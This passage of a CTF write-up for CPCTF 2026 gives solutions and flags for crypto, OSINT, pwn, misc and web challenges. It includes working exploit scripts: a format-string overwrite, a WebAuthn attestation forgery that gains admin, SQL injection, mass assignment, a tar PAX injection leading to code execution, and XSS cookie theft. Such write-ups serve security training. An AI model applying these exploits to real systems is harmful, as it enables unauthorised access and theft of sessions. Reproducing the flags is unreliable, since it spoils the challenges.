print(flag.decode(errors="replace"))

r.close()
```



> Flag: CPCTF{SAMe_01d_STReam_1s_A1WaYs_b0r1ng}

---

## 1, 0, 7 (Level 3)

*Problem Statement:* We bring you an RSA modulus N with high visual clarity. Please decrypt the ciphertext.

---

Inspecting modulus $N$ reveals a repunit pattern: 317 ones, followed by 95 zeros, and 317 sevens.

Let the repunit of 317 ones be:

$$R = 111\ldots111 = \frac{10^{317}-1}{9}$$

Then:

$$7R = 777\ldots777$$

With 95 zeros separating the blocks:

$$N = R \cdot (10^{317+95} + 7) = \left(\frac{10^{317}-1}{9}\right)(10^{412}+7)$$

Thus, the prime factorization of $N$ is directly:

$$p = \frac{10^{317}-1}{9}, \qquad q = 10^{412}+7$$

We compute Euler's totient $\varphi(N) = (p-1)(q-1)$, derive private exponent $d \equiv e^{-1} \pmod{\varphi(N)}$, and compute plaintext $m = c^d \bmod N$:

```python
N = int("111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000077777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777")
e = 65537
c = 24843637357401882323446973756028112485787496266605121365114610100704976130139741775294278368083885062198910614947919701406960107347354136102083123762522563111468269091870174521712246171376836840432255040039220296948193266921702699341919800731671378599220251932387731543800016339125706640050863673217753733950003925236014913643596976803633793469056544830856356906877796834342590774214214984186572346186348406049348500029472048880777893019592044554103952675917537653629499365661200893824071688347597515583518961750064206790440539820055665939394772896875086157476469036827442358013160609933570806379028553689444972004391787853021463769839240033616969091368964549902197048529690707775841641688773013075774663922475980270327652933542

n1 = 317
zeros = 95

p = (10**n1 - 1) // 9
q = 10**(n1 + zeros) + 7

assert p * q == N

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, N)

flag = bytes.fromhex(hex(m)[2:]).decode()
print(flag)
```



> Flag: CPCTF{N_1s_34sy_70_bRe4k_873b4982a}

---

## Anomaly 2 (Level 3)

*Problem Statement:* That popular problem is back with a twist!

---

The encryption script inverts the RSA modulus roles:

$$c = n^e \bmod m$$

where $m$ is the secret integer corresponding to the flag.

By definition of modular arithmetic:

$$m \mid (n_1^{e_1} - c_1) \quad \text{and} \quad m \mid (n_2^{e_2} - c_2)$$

Therefore, $m$ divides the Greatest Common Divisor (GCD) of both differences:

$$m \mid \gcd(n_1^{e_1} - c_1,\; n_2^{e_2} - c_2)$$

With $e_1 = e_2 = 3$, computing the GCD yields $2m$. Dividing by 2 recovers the exact plaintext:

```python
from math import gcd

def long_to_bytes(n: int) -> bytes:
    return n.to_bytes((n.bit_length() + 7) // 8, "big")

n1 = 87405182736104359780257026883853062930574663561980633775939752446259523158955808889602775147349422181286752422777444540409043705137242444906859982710084376976995577762838755152310969883588687143185855446868518299103284219288298089004723615989669846760852206531362806473299208237879292642911953181354015637739
e1 = 3
c1 = 5947050188011198882167638654472754073461946759644146614025932625290616486683809

n2 = 89984079446277129336031962353513290766726794253576464892005498900113523905864088594103793620450760604852463679010581777863799208215048737093285826288578917592161127386371969728330753862369184707806787782705755694366125100020912792307994059926523686129099696784648345246590104006734129991238410853485925459399
e2 = 3
c2 = 1469764391126334007675223493311131828227376713240295689831327636992622204657369

g = gcd(n1**e1 - c1, n2**e2 - c2)
m = g // 2

print(long_to_bytes(m).decode())
```


> Flag: CPCTF{7h3_n3x7_574710n_15_Kukud0}

---

## Janken Master (Level 3)

*Problem Statement:* Let's play Rock-Paper-Scissors!
`nc 133.88.122.244 32212`

---

The server generates choices for 99 NPCs using `xoroshiro128+` initialized with a user-provided seed XORed against a fixed constant:

$$\text{seed}' = \text{seed} \oplus \text{0x1234567890abcdef1234567890abcdef}$$

The generator's internal state $(s_0, s_1)$ must not be all zeros; if initialized with $(0, 0)$, every subsequent call yields `0`.

By inputting `seed = 0x1234567890abcdef1234567890abcdef`, the effective seed becomes `0`, freezing the PRNG state at `(0, 0)`.

Consequently, every NPC choice evaluates to `rng.next() % 3 == 0` (Rock). To emerge as the sole winner, the player selects `2` (Paper):

```python
from pwn import remote

HOST = "133.88.122.244"
PORT = 32212

seed = "24197857200151252728969465429440056815"  # 0x1234567890abcdef1234567890abcdef
hand = "2"  # Paper

r = remote(HOST, PORT)

r.recvuntil(b"Enter your lucky number (seed): ")
r.sendline(seed.encode())

r.recvuntil(b"Your hand (0-2): ")
r.sendline(hand.encode())

print(r.recvall().decode())
```


> Flag: CPCTF{M45TER_of_riGGed_d1Ce}

---

## Bitwise Scrumble (Level 4)

*Problem Statement:* Encrypted flag string provided. Recover the original flag.

---

The program packs the flag into a 75-digit decimal string split into three 25-digit segments, applying three bitwise expressions with the key:

1. `((f | k) & (f ^ k)) = f ^ k`
2. `((s & k) ^ (s | k)) = s ^ k`
3. `t ^ ((t | k) & k) = t ^ ((k) & k) = t ^ k`

All three operations simplify to standard bitwise XOR between each plaintext digit and the corresponding key digit:

$$\text{digit} \oplus \text{key digit}$$

XORing the ciphertext digits with the known key reconstructs the packed decimal string:

```python
def long_to_bytes(n: int) -> bytes:
    return n.to_bytes((n.bit_length() + 7) // 8, "big")

enc = "10aa77170b38758c146245779086332e5e8237430f362d317310124333b999b890043152135"
key = "0123456789012109876543210"

parts = [enc[:25], enc[25:50], enc[50:75]]

plain_parts = []
for part in parts:
    cur = ""
    for i, ch in enumerate(part):
        x = int(ch, 16)
        k = int(key[i])
        cur += str(x ^ k)
    plain_parts.append(cur)

num = int("".join(plain_parts))
print(long_to_bytes(num).decode())
```


> Flag: CPCTF{B1twis3_r0t4t10n!_3tim3s}

---

# OSINT

## IRIS OUT (Level 2)

*Problem Statement:* In the 76th NHK Kohaku Uta Gassen performance of "IRIS OUT" by Kenshi Yonezu, determine the exact center position of the white cylinder platform that appears at the end. Express latitude and longitude as decimals multiplied by 1000 and rounded to the nearest integer: `CPCTF{lat_lon}`.

---

Production notes confirm the performance was filmed on the **Tokyo Expressway** (KK Line) in Tokyo


Mapping the elevated highway corridor


In the performance video, the building directly behind the platform is **Karaoke Kan Ginza Honten**


Narrowing down the sector


At the start of the performance, the artist proceeds from a distinctive arrow-marked barrier


In overhead drone shots, a building with prominent horizontal striping flanks the platform


In close-ups, a white canopied roadside booth appears in the background


Aligning this booth directly opposite the striped facade on satellite maps pinpoints the platform's exact center


- Latitude: $35.674\dots \times 1000 \approx 35674$
- Longitude: $139.765\dots \times 1000 \approx 139765$

> Flag: CPCTF{35674_139765}

---

## Night View (Level 3)

*Problem Statement:* Identify where the night view photograph was taken. Format the flag as `CPCTF{way_id}` using OpenStreetMap.

---

The background prominently features a suspension bridge across a major harbor bay


Google Reverse Image Search identifies the structure as the **Rainbow Bridge** spanning northern Tokyo Bay


The distinctive circular spiral approach ramp curves to the right, confirming the viewpoint originates from the western / north-western waterfront (looking southeast toward Shibaura / Odaiba)


A waterway canal and low road bridge appear in the lower foreground


Auditing 3D satellite views along the canal identifies two distinctive commercial facilities in the line of sight: **Igarashi Reizo Co., Ltd.** and **THK Co., Ltd.**


Projecting the sightline through these buildings establishes the exact camera vector


The low-rise building directly opposite the camera position is **Field Serve Japan (㈱フィールドサーブジャパン)**


Given the high elevation of the vantage point, the camera was positioned in an adjacent high-rise tower behind this facility


Because the left facade of Field Serve Japan is clearly visible, the vantage point corresponds to the high-rise tower to the right. Querying OpenStreetMap for this building's way ID retrieves


> Flag: CPCTF{333413426}


# Binary Exploitation (PWN)

## Killionaire (Level 1)

*Problem Statement:* Let's place a bet! Connect using `nc`.

---

The game initializes the player's account with:
- `coins = 1`
- A maximum of 10 rounds
- Target threshold: Reach $\ge 1000$ coins to trigger the flag routine.

During each round, the player submits `bet`. The server verifies input validity with:

$$\text{if } bet > coins \text{ then invalid}$$

This check strictly validates that the wager does not exceed the current balance, but fails to check for negative values:

$$bet < 0$$

Examining the branch outcomes:
- On `SUCCESS`: $gain = \frac{bet \cdot (rand \bmod 301)}{100}$, increasing balance by $gain$. A negative bet yields zero or negative return.
- On `FAILURE`: The server computes:

$$coins = coins - bet$$

When `bet` is negative (e.g., $bet = -1000$):

$$coins = 1 - (-1000) = 1001$$

The check `-1000 > 1` evaluates to false, passing validation. Losing the bet adds 1000 coins immediately, reaching the target


> Flag: CPCTF{n3g4t1v3_v41u3_1s_m0re_p0w3rfu1_th4n_p0s1tiv3_va1u3}

---

## Buffer Visualizer (Level 2)

*Problem Statement:* Overwrite your neighbor!

---

Inspecting the data structure:

```c
struct Task {  
    char buffer[16];  
    char target[8];  
};
```

In memory, `buffer` sits directly adjacent to `target`. The program reads up to 32 bytes into `buffer[16]`:

```c
read(0, t.buffer, 32);
```

Supplying more than 16 bytes overflows directly into `target`. The success condition checks:

```c
strcmp(t.target, "ADMIN") == 0
```

Sending 16 bytes of padding followed by `"ADMIN\0"` satisfies the check


> Flag: CPCTF{y0u_4r3_PWN_h4ck3r}

---

## campaign (Level 3)

*Problem Statement:* Looks like you won a lottery!

---

The program prompts for a name and phone number, printing the name with:

```c
printf(name);  
```

This is an arbitrary format string vulnerability. The binary contains a global variable:

```c
char type[] = "ai";  
```

and prints the flag if:

```c
strcmp(type, "human") == 0  
```

Located at virtual address `0x404050`, we must overwrite `type` with `"human\0"`:
- Byte 0-1 (`0x404050`): `"hu"` (`0x7568` = 30056)
- Byte 2-3 (`0x404052`): `"ma"` (`0x616d` = 24941)
- Byte 4 (`0x404054`): `"n"` (`0x6e` = 110)

Ordering writes by ascending character counts:
1. 110 bytes $\to$ write `0x6e` to `type+4` via `%hhn`
2. 24941 bytes $\to$ write `0x616d` to `type+2` via `%hn`
3. 30056 bytes $\to$ write `0x7568` to `type` via `%hn`

Aligning the stack layout maps these targets to parameter offsets 13, 14, and 15:

```python
import socket
import struct

host = "133.88.122.244"
port = 32437

fmt = b'%110c%13$hhn%24831c%14$hn%5115c%15$hn'
fmt += b'AAA'
payload = fmt
payload += struct.pack("<Q", 0x404054)
payload += struct.pack("<Q", 0x404052)
payload += struct.pack("<Q", 0x404050)

s = socket.socket()
s.connect((host, port))

data = s.recv(4096)
print(data.decode(errors="ignore"), end="")

s.sendall(payload + b"\n")
data = s.recv(4096)
print(data.decode(errors="ignore"), end="")

s.sendall(b"1\n")

out = b""
while True:
    chunk = s.recv(4096)
    if not chunk:
        break
    out += chunk

print(out.decode(errors="ignore"))
s.close()
```


> Flag: CPCTF{b3_c4r3fu1_0f_ph15h1ng_m3s54g3s}

---

## coding agent (Level 4)

*Problem Statement:* We created a brand new interactive coding agent!

---

Analyzing the interactive binary reveals that user input is collected using an unbounded `scanf("%s", buffer)` call without field-width limits.

This standard implementation flaw induces a stack buffer overflow. Supplying a crafted payload overwrites adjacent stack frame control registers, hijacking execution flow to release the flag:

> Flag: CPCTF{u53_sc4nf_w17h_s1z3_0f_buFf3r5}

---

# Miscellaneous

## Sanity Check (Level 1)

*Problem Statement:* Welcome to CPCTF 2026! The flag is located in the Discord announcements channel.

---

Visiting the official competition Discord server announcement channel provides the kickoff flag


> Flag: CPCTF{W3lc0m3_t0_CPCTF_2026}

---

## Feedback Survey (Level 1)

*Problem Statement:* Please participate in the post-competition participant survey!

---

Completing and submitting the feedback survey yields the completion flag


> Flag: CPCTF{th4nk_y0u_for_p1aying}

---

## Hello LaTeX3!!! (Level 3)

*Problem Statement:* In the LaTeX3 expl3 programming layer, identify the missing primitive/function denoted by `???`.

---

The provided `.tex` source declares:

```latex
\seq_new:N \l_my_char_code_seq  
```

This registers `\l_my_char_code_seq` as an expl3 **sequence**.

The function definition follows:

```latex
\cs_new_protected:Npn \my_convert_clist_to_string:n #1  
{  
\???:Nn \l_my_char_code_seq { #1 }  
...  
}  
```

Parameter `#1` represents a comma-separated list (`clist`). The subsequent line executes `\seq_map_inline:Nn \l_my_char_code_seq` to iterate over elements.

Under expl3 naming conventions:
- Data type: `seq`
- Operation: `set`
- Source: `from_clist`
- Argument signature: `:Nn`

Synthesizing these conventions produces the required function:

```latex
\seq_set_from_clist:Nn  
```

The missing identifier is `seq_set_from_clist`:

> Flag: CPCTF{seq_set_from_clist}

---

## Damaged Report (Level 4)

*Problem Statement:* An urgent report from collaborator "K" arrived as a customized TeX `.fmt` format file.
Docker: [kininakuni/atexoder](https://hub.docker.com/r/kininakuni/atexoder)

---

Pulling the Docker image and mounting the `.fmt` file


The challenge provides a precompiled TeX format file (`.fmt`). The primary constraint is that the category codes (catcodes) of characters `a` and `g` have been altered to `13` (active character).

Consequently, invoking `\flag` directly fails because the TeX lexer tokenizes the string into control sequence `\fl`, followed by active character `a` and active character `g`.

Inspecting strings in the format file reveals a candidate command named `help`. Querying its definition with the TeX primitive `\show`:

```tex
\show\help  
```

TeX outputs the expansion of `\help`, confirming it serves as an alias pointing directly to the flag macro.

Because `help` contains neither `a` nor `g`, invoking:

```tex
\help  
```

safely executes the underlying routine and prints the flag


> Flag: CPCTF{h4ve4G0oDTeXlif3}

---

# Web Exploitation

## mirage (Level 1)

*Problem Statement:* Copy and paste the correct flag!
[https://mirage.web.cpctf.space/](https://mirage.web.cpctf.space/)

---

The webpage visually displays a text string mimicking a flag. However, copying the text via GUI clipboard returns a dummy placeholder due to client-side CSS overlays or JavaScript copy-event interceptors.

Opening browser DevTools (F12) to inspect the raw HTML DOM exposes the genuine flag embedded directly in node attributes


> Flag: CPCTF{CH4R4C73R5_4L50_D159U153}

---

## Hidden Recipe (Level 2)

*Problem Statement:* The secret family recipe was accidentally deleted!
[https://hidden-recipe.web.cpctf.space](https://hidden-recipe.web.cpctf.space/)

---

Analyzing server-side Go source code, the `Recipe` model is declared as:

```go
type Recipe struct {  
    gorm.Model  
    Title string  
    Description string  
}  
```

Embedding `gorm.Model` incorporates the `DeletedAt` timestamp field, enabling GORM's **Soft Delete** mechanism.

During initialization:

```go
secret := Recipe{Title: "Secret Recipe", Description: os.Getenv("FLAG")}  
db.Create(&secret)  
db.Delete(&secret)  
```

Under soft deletion, `db.Delete(&secret)` executes an update rather than a physical deletion:

```sql
UPDATE recipes SET deleted_at = CURRENT_TIMESTAMP WHERE id = ...;
```

Normal queries append `WHERE deleted_at IS NULL` to omit soft-deleted records.

However, the search endpoint is vulnerable to **SQL Injection** due to direct string formatting:

```go
db.Where("title LIKE '%" + q + "%'").Find(&recipes)  
```

Supplying the payload:

```text
' OR 1=1 --  
```

modifies the underlying query:

```sql
SELECT * FROM recipes WHERE (title LIKE '%%' OR 1=1 -- %') AND deleted_at IS NULL;
```

The comment delimiter `--` strips the appended `deleted_at IS NULL` condition, returning all database entries including the soft-deleted recipe containing the flag:

- `Title`: Secret Recipe
- `Description`: `<FLAG>`


> Flag: CPCTF{k!MChI_FR!ed_RiC3_w1th_MaY0nnA1s3}

---

## Let's remove script tag (Level 2)

*Problem Statement:* Hearing that XSS is dangerous, we removed `<script>` tags. That should be safe, right?
Target: [https://blog-admin.web.cpctf.space](https://blog-admin.web.cpctf.space/)

---

The server's sanitization routine relies on a simplistic regex stripping `<script>` tags:

```js
function sanitize(html) {  
    return html.replace(/<script[\s\S]*?<\/script>/gi, '');  
}
```

This blacklist approach is insufficient because modern HTML parsers execute JavaScript through standard tags using inline event handlers (`onerror`, `onload`, `onclick`).

Injecting an `` tag with an invalid source and an `onerror` handler exfiltrates the admin bot's cookies to a Webhook listener:

```html

```


Submitting the post and capturing its URL


Reporting the link to the admin bot


The Webhook captures the incoming HTTP request carrying the admin session cookie


> Flag: CPCTF{n0t_0nly_5cr1pt_t4g}

---

## Z (Level 2)

*Problem Statement:* Started using the dark social network "Z". That badge looks cool...
Target: [https://z.web.cpctf.space](https://z.web.cpctf.space/)

---

Inspecting the TypeScript backend:

```ts
type ProfileUpdate = {  
    displayName: string;  
    bio: string;  
};

app.put("/api/me", async (c) => {
    const user = await getUser(c);
    if (!user) return c.json({ error: "Unauthorized" }, 401);

    const body: ProfileUpdate = await c.req.json();

    try {
        updateProfile(user.id, body);
    } catch {
        return c.json({ error: "Update failed" }, 400);
    }
});

function updateProfile(id: number, data: ProfileUpdate) {  
    db.update(users).set(data).where(eq(users.id, id)).run();  
}
```

The declaration `body: ProfileUpdate = await c.req.json()` represents compile-time TypeScript type annotation. At runtime, JavaScript performs zero schema validation on incoming JSON payloads.

Submitting extra fields in the request body:

```json
{  
    "displayName": "azaki1",  
    "bio": "",  
    "plan": "premium"  
}
```

causes `db.update(users).set(data)` to pass `"plan": "premium"` directly to the database update statement. This is a classic **Mass Assignment** vulnerability.

Intercepting and modifying the request with Burp Suite


The server acknowledges the update


Navigating to the Premium members section retrieves the flag


> Flag: CPCTF{YOU_wRit3_TyP3ScRipt_aNd_eX3cuTE_JAV4scripT}

---

## tar me (Level 3)

*Problem Statement:* We built a static site deployment service. It only accepts Markdown and images, so it's completely safe!

---

The architecture comprises two tiers:
1. **API Gateway**: Validates file extensions in `Content-Disposition`, checking for `..` traversals and enforcing an extension whitelist (`.md`, `.png`, ...). Uploaded assets are bundled into a tar archive.
2. **Builder Service**: Unpacks the tarball into its build directory and triggers Eleventy (`npx @11ty/eleventy`).

By exploiting **PAX Extended Header Injection**: inserting a newline (`\n`) into the uploaded filename induces the tar utility to emit a PAX extended attribute override:

```text
27 path=eleventy.config.js
```

While the Gateway observes a valid `.md` extension, the Builder extracts the file as `eleventy.config.js`. This allows arbitrary code execution during the Eleventy build step


Navigating to the deployed static site retrieves the flag


> Flag: CPCTF{Nu11_byTe_Is_NOt_Just_a_C_ProB13M}

---

## Physical CTF (Level 5)

*Problem Statement:* You can't get the flag unless you physically raid the admin!
Target: [https://physical-ctf.web.cpctf.space](https://physical-ctf.web.cpctf.space/)

---

The application enforces a **WebAuthn Physical Verification** checkpoint. After establishing an admin session, the server requests verification of a physical hardware security key at:

```http
POST /api/admin/verify/finish  
```

The server compares `credential.Authenticator.AAGUID` against the hardcoded admin key AAGUID:

```text
c0ffee00-cafe-babe-dead-beef12345678  
```

The flaw lies in the server extracting `AAGUID` directly from the **client-supplied attestation object** without validating the attestation certificate chain against a trusted root. An attacker can forge an attestation object (using `fmt: "none"`) populated with the required AAGUID.

Exploitation methodology:
1. Register a normal user account with self-generated WebAuthn credentials (P-256 key, random credential ID).
2. Begin security key login for `admin` via `/api/login/security-key/begin`.
3. Complete authentication by signing the assertion challenge with the attacker's own key, providing the `userHandle` obtained in step 1 to satisfy discoverable assertion requirements and gain an active admin session.
4. Initiate `/api/admin/verify/begin`, then forge an attestation object embedding `AAGUID = c0ffee00cafebabedeadbeef12345678` and submit to `/api/admin/verify/finish`.

Automated exploit script:

```python
import base64
import hashlib
import json
import secrets
import sys
from typing import Any

import requests
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import ec

BASE = "https://physical-ctf.web.cpctf.space"
ADMIN_AAGUID = bytes.fromhex("c0ffee00cafebabedeadbeef12345678")


def b64u_encode(b: bytes) -> str:
    return base64.urlsafe_b64encode(b).rstrip(b"=").decode()


def b64u_decode(s: str) -> bytes:
    s += "=" * (-len(s) % 4)
    return base64.urlsafe_b64decode(s)


def cbor_uint(major: int, n: int) -> bytes:
    if n < 24:
        return bytes([(major << 5) | n])
    if n < 256:
        return bytes([(major << 5) | 24, n])
    if n < 65536:
        return bytes([(major << 5) | 25]) + n.to_bytes(2, "big")
    if n < 2**32:
        return bytes([(major << 5) | 26]) + n.to_bytes(4, "big")
    return bytes([(major << 5) | 27]) + n.to_bytes(8, "big")


def cbor_obj(x: Any) -> bytes:
    if x is False:
        return b"\xf4"
    if x is True:
        return b"\xf5"
    if x is None:
        return b"\xf6"

    if isinstance(x, int):
        if x >= 0:
            return cbor_uint(0, x)
        return cbor_uint(1, -1 - x)

    if isinstance(x, bytes):
        return cbor_uint(2, len(x)) + x

    if isinstance(x, str):
        b = x.encode()
        return cbor_uint(3, len(b)) + b

    if isinstance(x, (list, tuple)):
        return cbor_uint(4, len(x)) + b"".join(cbor_obj(v) for v in x)

    if isinstance(x, dict):
        out = cbor_uint(5, len(x))
        for k, v in x.items():
            out += cbor_obj(k) + cbor_obj(v)
        return out

    raise TypeError(f"unsupported type for CBOR: {type(x)!r}")


def cose_ec2_public_key(pubkey: ec.EllipticCurvePublicKey) -> bytes:
    nums = pubkey.public_numbers()
    x = nums.x.to_bytes(32, "big")
    y = nums.y.to_bytes(32, "big")
    return cbor_obj({
        1: 2,      # kty = EC2
        3: -7,     # alg = ES256
        -1: 1,     # crv = P-256
        -2: x,
        -3: y,
    })


def client_data_create(challenge_b64: str, origin: str) -> bytes:
    return json.dumps({
        "type": "webauthn.create",
        "challenge": challenge_b64,
        "origin": origin,
        "crossOrigin": False,
    }, separators=(",", ":")).encode()


def client_data_get(challenge_b64: str, origin: str) -> bytes:
    return json.dumps({
        "type": "webauthn.get",
        "challenge": challenge_b64,
        "origin": origin,
        "crossOrigin": False,
    }, separators=(",", ":")).encode()


def make_registration_payload(
    challenge_b64: str,
    origin: str,
    rp_id: str,
    cred_id: bytes,
    aaguid: bytes,
    privkey: ec.EllipticCurvePrivateKey,
) -> dict[str, Any]:
    pub = privkey.public_key()
    cose = cose_ec2_public_key(pub)

    rpidhash = hashlib.sha256(rp_id.encode()).digest()
    flags = bytes([0x41])  # UP + AT
    sign_count = (0).to_bytes(4, "big")

    auth_data = (
        rpidhash +
        flags +
        sign_count +
        aaguid +
        len(cred_id).to_bytes(2, "big") +
        cred_id +
        cose
    )

    attestation_object = cbor_obj({
        "fmt": "none",
        "attStmt": {},
        "authData": auth_data,
    })

    client = client_data_create(challenge_b64, origin)
    cred_id_b64 = b64u_encode(cred_id)

    return {
        "id": cred_id_b64,
        "rawId": cred_id_b64,
        "type": "public-key",
        "response": {
            "clientDataJSON": b64u_encode(client),
            "attestationObject": b64u_encode(attestation_object),
        },
    }


def make_assertion_payload(
    challenge_b64: str,
    origin: str,
    rp_id: str,
    cred_id: bytes,
    user_handle: bytes,
    privkey: ec.EllipticCurvePrivateKey,
    sign_count: int = 1,
) -> dict[str, Any]:
    client = client_data_get(challenge_b64, origin)
    client_hash = hashlib.sha256(client).digest()

    rpidhash = hashlib.sha256(rp_id.encode()).digest()
    flags = bytes([0x01])  # UP
    auth_data = rpidhash + flags + sign_count.to_bytes(4, "big")

    sig_base = auth_data + client_hash
    signature = privkey.sign(sig_base, ec.ECDSA(hashes.SHA256()))

    cred_id_b64 = b64u_encode(cred_id)
    return {
        "id": cred_id_b64,
        "rawId": cred_id_b64,
        "type": "public-key",
        "response": {
            "authenticatorData": b64u_encode(auth_data),
            "clientDataJSON": b64u_encode(client),
            "signature": b64u_encode(signature),
            "userHandle": b64u_encode(user_handle),
        },
    }


def expect_ok(r: requests.Response, step: str) -> None:
    if not r.ok:
        print(f"[-] {step} failed: {r.status_code} {r.text}")
        sys.exit(1)


def main() -> None:
    s = requests.Session()

    username = "x" + secrets.token_hex(4)
    login_key = ec.generate_private_key(ec.SECP256R1())
    my_cred_id = secrets.token_bytes(32)

    print(f"[+] registering normal user: {username}")
    r = s.post(f"{BASE}/api/register/begin", json={"username": username})
    expect_ok(r, "register begin")
    reg_begin = r.json()["publicKey"]

    rp_id = reg_begin["rp"]["id"]
    my_user_handle = b64u_decode(reg_begin["user"]["id"])

    reg_payload = make_registration_payload(
        challenge_b64=reg_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=my_cred_id,
        aaguid=b"\x00" * 16,
        privkey=login_key,
    )

    r = s.post(f"{BASE}/api/register/finish", json=reg_payload)
    expect_ok(r, "register finish")
    print("[+] normal user registered")

    print("[+] starting security-key login as admin")
    r = s.post(f"{BASE}/api/login/security-key/begin", json={"username": "admin"})
    expect_ok(r, "admin login begin")
    login_begin = r.json()["publicKey"]

    login_payload = make_assertion_payload(
        challenge_b64=login_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=my_cred_id,
        user_handle=my_user_handle,
        privkey=login_key,
        sign_count=1,
    )

    r = s.post(f"{BASE}/api/login/finish", json=login_payload)
    expect_ok(r, "login finish")
    print("[+] login finish ok")

    r = s.get(f"{BASE}/api/me")
    expect_ok(r, "me after login")
    me = r.json()
    print("[+] /api/me =", me)

    if not me.get("isAdmin"):
        print("[-] not admin; target may differ from provided source")
        sys.exit(1)

    print("[+] starting admin verify")
    verify_key = ec.generate_private_key(ec.SECP256R1())
    verify_cred_id = secrets.token_bytes(32)

    r = s.post(f"{BASE}/api/admin/verify/begin")
    expect_ok(r, "admin verify begin")
    verify_begin = r.json()["publicKey"]

    verify_payload = make_registration_payload(
        challenge_b64=verify_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=verify_cred_id,
        aaguid=ADMIN_AAGUID,
        privkey=verify_key,
    )

    r = s.post(f"{BASE}/api/admin/verify/finish", json=verify_payload)
    expect_ok(r, "admin verify finish")

    print("[+] success")
    print(r.text)


if __name__ == "__main__":
    main()
```


> Flag: CPCTF{s!6nA7Ure_v4l1D_BUT_wHo_ar3_YoU?}
